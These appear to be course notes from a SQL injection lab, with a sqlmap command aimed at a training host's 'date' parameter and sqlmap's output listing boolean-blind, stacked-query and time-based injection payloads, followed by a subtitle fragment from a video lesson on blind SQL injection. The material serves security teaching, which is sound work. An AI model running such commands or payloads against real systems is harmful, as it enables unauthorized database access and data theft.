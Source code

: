 

==Using SQL map== for the identified vulnerable Query parameter  
sqlmap -u http://sqli2.naham.sec:8081/article-count?date=may%202020 --dbs --batch

```

sqlmap identified the following injection point(s) with a total of 322 HTTP(s) requests:
---
Parameter: date (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: date=may 2020' AND 7616=7616 AND 'RTbN'='RTbN

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: date=may 2020';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: date=may 2020' AND (SELECT 7952 FROM (SELECT(SLEEP(5)))vtRl) AND 'xPpz'='xPpz

```






























---

1
00:00:00,060 --> 00:00:05,250
So, for example, now we're going to look for a blind sequel injection, so in this case, we're going

2
00:00:05,250 --> 00:00:10,410
to click read more, we're going to give it a single comment.

3
00:00:10,420 --> 00:00:11,360
Nothing comes back.

4
00:00:11,790 --> 00:00:17,130
This one's a little bit tricky because we're going to have to rely on a little bit of a deeper understanding
